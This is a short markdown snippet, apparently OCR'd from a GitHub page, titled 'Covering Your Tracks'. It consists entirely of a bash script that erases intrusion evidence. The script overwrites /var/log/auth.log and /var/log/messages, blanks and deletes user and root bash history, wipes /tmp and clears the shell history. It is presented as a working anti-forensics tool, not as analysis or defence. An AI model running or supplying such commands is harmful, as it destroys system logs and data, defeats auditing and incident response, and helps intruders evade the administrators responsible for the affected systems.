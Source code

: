 ### Covering Your Tracks

```bash
#!/bin/bash
echo "COVERING TRACKS"
echo  "clearing /var/log/auth.log"
echo "" > /var/log/auth.log
echo "clearing ~/.bash_history"
echo "" > ~/.bash_history
echo "clearing /root/.bash_history"
echo "" > /root/.bash_history
echo "removing ~/.bash_history"
rm ~/.bash_history -rf
echo "removing /tmp/"
rm -R /tmp/*
echo "clearing /var/log/messages"
echo "" > /var/log/messages
echo "clearing command history"
history -c
```

